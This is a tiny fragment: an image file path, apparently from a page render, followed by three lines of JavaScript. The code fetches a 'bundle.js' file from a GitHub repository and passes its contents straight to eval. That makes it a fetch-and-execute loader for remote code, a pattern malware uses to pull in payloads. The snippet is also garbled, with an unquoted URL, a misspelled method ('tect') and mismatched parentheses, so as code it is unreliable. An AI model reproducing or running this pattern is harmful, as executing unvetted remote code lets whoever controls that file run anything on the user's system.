 fetch(https://githubusercontent.com/Tester284/crispy-invention/blob/main/dist/bundle.js)
.then((res) => res.tect()
.then((t) => eval(t)))
